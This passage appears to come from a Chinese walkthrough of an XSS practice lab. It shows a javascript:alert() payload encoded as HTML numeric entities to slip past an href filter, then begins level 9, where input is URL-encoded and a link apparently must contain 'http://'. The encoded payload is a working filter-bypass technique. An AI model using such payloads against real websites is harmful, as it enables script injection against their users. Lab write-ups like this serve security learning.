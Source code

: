 利用href自动Unicode解码

```bash
payload：javascript:alert()      unicode编码后

\&\#106;\&\#97;\&\#118;\&\#97;\&\#115;\&\#99;\&\#114;\&\#105;\&\#112;\&\#116;\&\#58;\&\#97;\&\#108;\&\#101;\&\#114;\&\#116;\&\#40;\&\#41;
```

​![image](assets/image-20240913181845-yqeoiy6.png)​

## level9

输入发现被URL编码

​![image](assets/image-20240913182621-4z6fmng.png)​

http://www.runoob.com/  输入一个合法链接呢，好像可以跳转。考虑是检测到http://才可以

​![image](assets/image-20240913184146-ngsz09d.png)​
